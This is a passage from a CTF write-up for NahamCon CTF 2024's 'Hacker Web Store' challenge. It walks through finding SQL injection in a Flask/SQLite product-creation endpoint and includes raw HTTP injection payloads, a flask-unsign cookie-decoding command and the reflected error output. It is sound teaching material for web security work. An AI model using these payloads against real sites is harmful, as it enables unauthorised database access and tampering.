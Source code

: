 Nope.

Alright, let's take a step back.

Since we can **insert a new product record** into the **database** via the `POST /create/` endpoint, we can try to probe for **SQL injection**.

**To do so, we can try to insert a single quotation mark (`'`) in one of those parameters:**
```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum'&price=69&desc=foobar
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527130130.png)

**Decoded Flask session cookie:**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Hacker-Web-Store)-[2024.05.27|12:58:14(HKT)]
└> flask-unsign --decode --cookie '.eJxljk9Lw0AQxb_KMJe0sBgoEk168pCD4D9MFcSWMMlOTDDZrTsTUEq_u5ub4GV-PHhv3jth3Y0kPQsW7ycEjcCJReiD0WAZgg8wOKiUlCd2WsDtQ1U-7yJ2j_AUvJ1bFVg5mtjAMQxthGVp1_B6c_dSVrBK3vwc4H6eksRAkuXL7bxvKCTrLR7O5n-vYwqwxyzfYwHy45S-gZct0X4wcXNg6bHoaBQ2aJv6SBo1pr2fOG21SyX-GryrLSk1FFXa5naTba5sd9lc17a5kK9x0KVM_Se7GP5rwPMv4dVaiw.ZlQTjg.xWwEiDerpBwEcUToGgqPmNKs8Vs'
{'_flashes': [('message', "Error in Statement: INSERT INTO Products (name, price, desc) VALUES ('Your Mum'', '69', 'foobar');"), ('message', 'near "69": syntax error')], '_fresh': False, 'db_path': '/home/ctf/session_databases/c9d2627df4b8_db.sqlite', 'token': 'c9d2627df4b8'}
```

Oh! We got a **SQL syntax error**, and **the SQL statement is reflected**!

```sql
INSERT INTO Products (name, price, desc) VALUES ('Your Mum'', '69', 'foobar');
```

Also, in the `db_path` claim, we can see that the database file extension is `.sqlite`, which means the web application is using **SQLite**!!

Now, let's "*fix*" the SQL syntax error via this payload:

```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc=foobar');--+-
```

> Note: The payload is now moved to the `desc` parameter, otherwise we need to provide 2 more values.

In the above payload, we use the `'` to escape the single quotation mark. Then, the `);` is to close the `VALUES` clause. Finally, the `-- -` is a SQL comment, so that the rest of the original syntax will be ignored.

**Hence, the final SQL statement will become this:** 
```sql
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', 'foobar');-- -');
```
